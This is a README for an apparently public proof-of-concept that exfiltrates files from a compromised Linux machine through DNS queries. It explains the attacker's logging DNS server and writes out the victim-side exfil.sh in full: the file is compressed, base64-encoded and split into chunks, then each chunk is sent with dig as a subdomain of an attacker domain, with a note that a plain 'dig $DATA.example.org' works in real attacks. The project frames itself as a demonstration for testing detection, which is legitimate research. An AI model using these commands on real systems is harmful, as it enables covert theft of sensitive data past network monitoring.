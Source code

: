 # Introduction

This code was a PoC code to demonstrate how data (textual or binary) can be exfiltrated from a victim over DNS queries. This attack relies on the fact that DNS queries are generally not blocked or monitored for exfiltration.

The threat detection engines of the major cloud providers MUST have detections for exfiltration over DNS. I have validated this in the AWS GuardDuty. Azure, other clouds and on-premises Threat Detection services needs to be validated. Please comment onthe products that have this and I will merge them to this README.

# Setup
## Attacker side
### Theory of the Attacker side [TL;DR]
The attacker needs to firstly run a "customised" DNS server that logs all DNS resolution requests that come to it. 

The attacker registers a domain name  - e.g. example[.]com for DNS queries to come to the server across the Internet and run this DNS server. Once the attacker has a foothold on the victim computer, he sends DNS queries to this DNS server with the exfiltrated data as the subdomain name needing DNS resolution.

### Running the DNS server
The attacker side uses the Twisted module of Python to instantiate a DNS server. For the PoC, the server runs on the localhost on port 10053 (both TCP and UDP).

1. Open a Terminal and navigate to the `attacker` directory.
2. For the first time only, run `pip3 install`. The dependencies will get installed from the requirements.txt file.
3. Run the DNS server - `python3 dns-server.py`
4. **Do not run in background** as the server is configured to log to standard output. However, the POC is configured to extract the `servername` part of the DNS query and reconstruct it. This is the exfiltrated data chunk.

## Victim side
### Theory of the Victim side [TL;DR]
The victim side is the machine from which the attacker wants to exfiltrate sensitive data over DNS queries. This data can be textual or binary and therefore the data is encoded to base64 before creating the DNS queries.

Also as per the RFC-1034, DNS query can by 63 bytes at most including the FQDN (Fully Qualified Domain name). We have taken arbitrarily 35 bytes in our PoC but this number can be altered to fit each query to be 63 bytes.

For the purpose of the PoC, we will create a file that creates a file with "FooBar!" as the text ten thousand times. This is meant to act as the sensitive that will be exfiltrated. In an actual attack, the file will be replaced with the file that contains the sensitive data. This file is created using the Python file `create-file-to-exfil.py`. 

The actual exfiltration is done using the `exfil.sh`

### Running the Victim side code - The data exfiltration
The victim side is demonstrated in Bash under the assumption that the machines containing sensitive data is running some form of Linux/Unix server. Using Python of something means that the attacker might need to 'code' this on the server. On the contrary, Bash is -  *essentially, a few commands thrown in together*.

1. Open a terminal and navigate to the `victim` directory
2. Run the exfil script - `bash exfil.sh`

> In an odd case, some of the utilities may not exist and you can either install the tools or replace with the ones that exist on the system.

## Dissection of the exfil.sh file

```
python3 create-file-to-exfil.py
tar -czf pass.tar.gz an-ip-file.txt
base64 -i pass.tar.gz > encoded
split -b 35 encoded xaa
for i in $(ls xaa*);do DATA=$(base64 -i $i | tr -d "="); dig -p 10053 @localhost $DATA.example.org +short
```

1. The first command creates the file that will be exfiltrated.
2. The file is compressed to save the amount of data that needs to be sent
3. After the compression, even textual data needs to be treated as binary data. The base64 operation converts this binary data to its UTF-8 representation. The encoded  file is sent to a file called `encoded`
4. The file is split into chunks of 35 bytes each stored in a file that has `xaaa` as a prefix. The command line creates as many files as needed for the encoded file to be chunked in to 35 bytes.
5. We iterate through each file and exfiltrate its contents using the `dig` (DNS lookup) command. We will elaborate this chunk as follows

    ```
    for i in $(ls xaa*);
    do 
        DATA=$(base64 -i $i | tr -d "="); 
        dig -p 10053 @localhost $DATA.example.org +short
    done
    ```
    i. The directory where the chunked data lies is listed for the file prefix.

    ii. For each of the file that is returned in the previous command, we base64 encode the chunk and remove the trailing '=' signs that cannot be sent over the DNS queries.
    > We strictly do not need to encode each file but the last file only as that is the only one that contains the padding. However, it is easy to encode each chunk and decode it as opposed to adding logic to detect the last file in the listing.
    
    iii. Since the default output of the base64 operation is to output to standard output, we capture this to a variable called DATA.

    iv. Finally, we create the DNS queries using the `dig` utility. Since we want the queries to go to a specific DNS server on a particular port, we need to add the `-p` argument for post and the `@<hostname>` argument for the DNS server that the request must go to. The *FQDN* part contains the DATA chunk along with the attacker domain.

    > In the real-world the command will not be so complicated and just a `dig $DATA.example.org` will do the trick. The chunk will be sent over.

# Reconstruction of the file at the attacker side
Since we are doing base64 encoding twice - once for the entire file and once for each chunk. When reconstructing the file, each chunk must be base64 decoded. This is achieved in the `dns-server.py` file, where the comment `#Try base64 decoding it till successful` is added.

The output of the successful decoding of the chunk is then appended to the resonstruction file.

Since we are looping at the client side, we will continue to add the base64 decoded chunk to rebuild the original encoded file.

The `reconstruct-the-exfil-file.sh` file contains the command to base64 decode the reconstructed file and then un-gunzip it to get the original file back.

Compare the 2 files by running the command `diff ../victim/an-ip-file.txt an-ip-file.txt` from a terminal window in the `attacker` directory. This should result in a null output.

# Improvements
The solution is a PoC and therefore, we have not added intelligence to detect two separate exfiltration attempts which must be reconstructed as 2 files in the server side. In the current implemnentation, if two separate file are exfiltrated the reconstruction file will be a single file and thereefore reconstruction will fail.

Therefore, for the PoC, you must delete the reconstruction file for each separate demo.
